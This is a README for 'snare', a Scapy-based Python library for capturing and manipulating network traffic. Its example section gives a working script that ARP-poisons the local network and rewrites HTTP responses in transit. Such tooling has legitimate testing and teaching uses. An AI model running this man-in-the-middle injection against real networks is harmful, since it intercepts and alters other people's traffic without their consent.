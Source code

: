 snare
=====
**Capture and manipulate traffic off the network**

Snare provides a Sniffer class and a few "modules" which can be assembled to form attack tools.
These classes are based on Scapy and provide a convenient way to interact with and compose tools from it's functionality.

The advanced functions such as ARP poisoning, packet forwarding, and analysis are decomposed into modules to allow
for greater flexibility and flexibility. Look at the constructed strategies for examples of how to compose the modules.

Docs are hosted on `Read the Docs <https://network-snare.readthedocs.io/en/latest/>`_

Example
-------

Suppose you hate the string "search" and you want to MitM your local network, replacing all instances of the word in HTTP responses with the word "replace". Well the following script will do that for you!

.. code-block:: python

   import scapy.all as scapy
   import snare

   # Hello
   @snare.tcpfilter
   def inject(pkt):
     if all(layer in pkt for layer in (scapy.IP, scapy.TCP)):
         if scapy.Raw in pkt and pkt[scapy.TCP].sport == 80:

             s = b"search"
             r = b"replacement"

             raw = pkt[scapy.Raw]
             if s in raw.load:
                 raw.load = raw.load.replace(s, r)
                 print(pkt.show())
     return pkt

   sniffer = snare.Sniffer(
       iface="eth0",
       modules=[snare.ArpMitmModule(filter=inject)]
   )
   sniffer.start()
   input("Starting injection attack. Press enter to quit.")
   sniffer.stop()

Development
-----------

Testing
~~~~~~~

Tests are written in `pytest` and can be run with the `pytest` command.

.. note::
   Testing is pretty spare at the momment. In order to really test things, a testing framework that
   can feed in pcap files and evaluate the repsonse is required.

Documentation
~~~~~~~~~~~~~

Documentation can be built with Sphinx from the docs folder by running `make html`, or another target.
